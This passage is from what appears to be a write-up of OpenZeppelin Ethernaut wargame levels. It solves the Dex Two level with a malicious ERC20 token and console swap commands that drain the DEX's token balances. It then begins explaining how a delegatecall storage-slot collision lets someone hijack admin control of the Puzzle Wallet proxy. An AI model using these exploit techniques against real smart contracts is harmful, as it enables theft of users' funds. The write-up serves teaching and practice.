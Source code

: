 **Solution:** \
Attack Payload:
```
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.1.0/contracts/token/ERC20/ERC20.sol";

contract MaliciousToken is ERC20 {
    constructor () public ERC20("Malicious", "MAL") {
        _mint(msg.sender, 1000000 * (10 ** uint256(decimals())));
    }
}
```
1. Create MAL token by using Openzeppelin’s ERC20 and mint 1M of MAL to our address via _mint()
2. Approve the Dex contract: `Dex_address, 1000000`
3. Add MAL token to the Dex contract via `add_liquidity()`
```
let MAL = "0x17E82E862fA262F80332Bb527C34BcC2755C9318";
await contract.add_liquidity(MAL, 100)
```
4. Now, we can use 100 MAL to swap 100 token2 indicating from `get_swap_price()`
```
(await contract.get_swap_amount(MAL, await contract.token1(), 100)).toString()
```
5. Swap 100 MAL for 100 token2 using swap(). We successfully solve the 1st requirement for the challenge since the current balance of token1 in the Dex contract is 0
```
await contract.swap(MAL, await contract.token1(), 100);
Check Balance: (await contract.balanceOf(await contract.token1(), instance)).toString()
```
6. Now to swap 200 MAL for 100 token1 using swap(). We successfully solve the challenge since the current balance of token1 and token2 in the Dex contract is 0
```
await contract.swap(MAL, await contract.token2(), 200);
Check Balance: (await contract.balanceOf(await contract.token2(), instance)).toString()
```


# 24. [Challenge 24: Puzzle Wallet](https://ethernaut.openzeppelin.com/level/0xe13a4a46C346154C41360AAe7f070943F67743c9)

Tasks:
- You'll need to hijack this wallet to become the admin of the proxy.

**Solution:** \
To Solve in console:

1. Since, delegatecall is context preserving, the context is taken from PuzzleProxy. Meaning, any state read or write in storage would happen in PuzzleProxy at a corresponding slot, instead of PuzzleWallet.

Compare the storage variables at slots:
```
slot | PuzzleWallet  -  PuzzleProxy
----------------------------------
 0   |   owner      <-  pendingAdmin
 1   |   maxBalance <-  admin
```
Accordingly, any write to pendingAdmin in PuzzleProxy would be reflected by owner in PuzzleWallet because they are at same storage slot, 0!
